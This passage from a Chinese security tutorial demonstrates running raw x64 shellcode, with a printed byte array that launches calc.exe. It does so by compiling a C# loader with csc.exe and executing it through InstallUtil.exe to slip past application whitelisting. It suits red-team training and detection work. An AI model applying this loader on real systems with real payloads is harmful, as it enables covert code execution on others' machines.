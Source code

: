 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/b97cef10ee89e862bed208ef395e7a5b14a2244e.jpg)

```
byte[] buf = new byte[276] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x2e,0x65,0x78,0x65,0x00 };

```

替换Shellcode.cs中的byte[] shellcode

使用.net 2.0 x64中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/447076d42cb554ff5ddb7c6e53ce920c4d53d658.jpg)

如果使用.net 2.0 x86中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

